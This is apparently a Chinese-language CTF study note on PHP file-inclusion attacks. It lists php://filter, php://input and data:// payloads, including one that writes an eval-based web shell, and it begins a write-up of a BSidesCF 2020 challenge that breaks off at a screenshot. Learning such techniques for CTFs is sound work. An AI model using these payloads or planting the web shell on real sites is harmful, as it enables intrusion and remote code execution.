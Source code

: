 # 文件包含

file=flag.txt 如果flag没有被php标签包裹，可以读取出来，否则会被执行

## 任意文件读取

**php://filter ** 文件读取

```
将内容编码成base64输出：
php://filter/read=convert.base64-encode/resource=xxx
将内容编码成rot13输出：
php://filter/read=string.rot13/resource=xxx
```

**php://input** 文件写入

post流中的数据会被当做代码执行

```
php://filter/write=convert.base64-encode/resource=phpinfo.php 
php://input 然后POST里面写:<?php fputs(fopen('shell.php', 'w'), '<?php @eval($_GET[cmd]);?>');?>
```

**data://** 代码执行

```
data://text/plain,<?php phpinfo();?>
data://text/plain;base64,PD9waHAHAgcGhwaW5mbygpOz8%2b
```

## [BSidesCF 2020]Had a bad day

文件包含题，看url

```
http://5e96397f-c259-4ef7-93a0-0c4828a7ab66.node5.buuoj.cn:81/index.php?category=woofers
```

当尝试用伪协议读取index.php内容时：（目的是看他首页文件的内容）

![image-20250918091436867](assets/image-20250918091436867.png)
